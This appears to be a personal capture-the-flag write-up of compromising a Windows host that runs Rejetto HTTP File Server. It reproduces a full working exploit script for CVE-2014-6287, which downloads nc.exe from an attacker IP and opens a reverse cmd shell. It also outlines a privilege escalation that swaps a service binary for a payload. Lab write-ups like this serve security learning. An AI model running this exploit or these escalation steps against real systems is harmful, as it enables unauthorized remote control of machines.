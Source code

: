 - ### Scanning & Enumeration
	- **nmap** results
	  collapsed:: true
		- Fast Scan
			- ![Screenshot 2024-07-28 230303.png](../assets/Screenshot_2024-07-28_230303_1722314700844_0.png)
		- In-Depth Scan
			- ![Screenshot 2024-07-28 230406.png](../assets/Screenshot_2024-07-28_230406_1722314726653_0.png)
			- ![Screenshot 2024-07-28 230332.png](../assets/Screenshot_2024-07-28_230332_1722314739671_0.png)
			- ![Screenshot 2024-07-28 230346.png](../assets/Screenshot_2024-07-28_230346_1722314747620_0.png){:height 285, :width 578}
		- A *Regetto HTTP file server* is served on port `8080`
			- Version - `2.3.x` - vulnerable to `CVE-2014-6287`
- ### Initial Access
	- `auto` **Metasploit**
	  collapsed:: true
		- ![Screenshot 2024-07-28 230454.png](../assets/Screenshot_2024-07-28_230454_1722315028320_0.png)
		- ![Screenshot 2024-07-28 230511.png](../assets/Screenshot_2024-07-28_230511_1722315042571_0.png)
		- ![Screenshot 2024-07-28 230524.png](../assets/Screenshot_2024-07-28_230524_1722315058227_0.png)
		- ![Screenshot 2024-07-28 230534.png](../assets/Screenshot_2024-07-28_230534_1722315071953_0.png)
	- `manual`
	  collapsed:: true
		- Use the `Python2` script from `ExploitDB` - https://www.exploit-db.com/exploits/
			-
			  ```
			  #!/usr/bin/python2
			  # Exploit Title: HttpFileServer 2.3.x Remote Command Execution
			  # Google Dork: intext:"httpfileserver 2.3"
			  # Date: 04-01-2016
			  # Remote: Yes
			  # Exploit Author: Avinash Kumar Thapa aka "-Acid"
			  # Vendor Homepage: http://rejetto.com/
			  # Software Link: http://sourceforge.net/projects/hfs/
			  # Version: 2.3.x
			  # Tested on: Windows Server 2008 , Windows 8, Windows 7
			  # CVE : CVE-2014-6287
			  # Description: You can use HFS (HTTP File Server) to send and receive files.
			  #	       It's different from classic file sharing because it uses web technology to be more compatible with today's Internet.
			  #	       It also differs from classic web servers because it's very easy to use and runs "right out-of-the box". Access your remote files, over the network. It has been successfully tested with Wine under Linux. 
			   
			  #Usage : python Exploit.py <Target IP address> <Target Port Number>
			  
			  #EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
			  #          You may need to run it multiple times for success!
			  
			  
			  import urllib2
			  import sys
			  
			  try:
			  	def script_create():
			  		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")
			  
			  	def execute_script():
			  		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")
			  
			  	def nc_run():
			  		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")
			  
			  	ip_addr = "192.168.44.128" #attack IP address
			  	local_port = "443" # attack Port number
			  	vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%2Fnc.exe%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5Cnc.exe%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
			  	save= "save|" + vbs
			  	vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
			  	exe= "exec|"+vbs2
			  	vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
			  	exe1= "exec|"+vbs3
			  	script_create()
			  	execute_script()
			  	nc_run()
			  except:
			  	print """[.]Something went wrong..!
			  	Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
			  	Don't forgot to change the Local IP address and Port number on the script"""
			  	
			              
			  ```
			-
		- An `HTTP` server must be running on the attacker machine so that the script can `GET` the `nc.exe` binary
		  collapsed:: true
			- ![Screenshot 2024-07-30 092901.png](../assets/Screenshot_2024-07-30_092901_1722315984876_0.png)
		- Using the `nc.exe` binary the script will connect back the listener
			- ![Screenshot 2024-07-30 092909.png](../assets/Screenshot_2024-07-30_092909_1722315995005_0.png)
		- The script is run twice for both of the above actions to take place
			- ![Screenshot 2024-07-30 092917.png](../assets/Screenshot_2024-07-30_092917_1722316037939_0.png)
	-
- ### Privilege Escalation
	- `auto` Metasploit
	  collapsed:: true
		- Upload `PowerUp.ps1` script to search for *privesc* vectors
			- ![Screenshot 2024-07-28 231504.png](../assets/Screenshot_2024-07-28_231504_1722315224891_0.png)
		- Run `Invoke-AllChecks` to run the script
			- ![Screenshot 2024-07-28 231736.png](../assets/Screenshot_2024-07-28_231736_1722315270611_0.png)
		- Generate `reverse_tcp` payload
			- ![Screenshot 2024-07-28 232318.png](../assets/Screenshot_2024-07-28_232318_1722315333480_0.png)
		- Stop the vulnerable service & Upload the payload [in the execution path of the service]
			- ![Screenshot 2024-07-29 095301.png](../assets/Screenshot_2024-07-29_095301_1722315415555_0.png)
		- Start the service with a running `netcat` listener to capture the shell
			- ![Screenshot 2024-07-29 095353.png](../assets/Screenshot_2024-07-29_095353_1722315482525_0.png)
			- ![Screenshot 2024-07-29 095415.png](../assets/Screenshot_2024-07-29_095415_1722315501627_0.png)
			- ![Screenshot 2024-07-29 095521.png](../assets/Screenshot_2024-07-29_095521_1722315510795_0.png)
	- `manual`
		- For enumeration of `privesc` vectors -> use `WinPEAS`
			- ![Screenshot 2024-07-30 093656.png](../assets/Screenshot_2024-07-30_093656_1722316144315_0.png)
			- ![Screenshot 2024-07-30 093702.png](../assets/Screenshot_2024-07-30_093702_1722316150991_0.png)
		- On running `WinPEAS`
		  collapsed:: true
			- ![Screenshot 2024-07-30 094010.png](../assets/Screenshot_2024-07-30_094010_1722316216532_0.png)
			- ![Screenshot 2024-07-30 093934.png](../assets/Screenshot_2024-07-30_093934_1722316191389_0.png)
			- ![Screenshot 2024-07-30 093951.png](../assets/Screenshot_2024-07-30_093951_1722316199532_0.png)
		- Stop the running service - `sc stop AdvancedSystemCareService9`
		- Get the payload executable from the our HTTP server
			- ![Screenshot 2024-07-30 094950.png](../assets/Screenshot_2024-07-30_094950_1722316303431_0.png)
		- Start the service with the payload in execution path - `sc start AdvancedSystemCareService9`
			- ![124.png](../assets/124_1722316495566_0.png){:height 220, :width 578}
			- ![123.png](../assets/123_1722316551686_0.png)
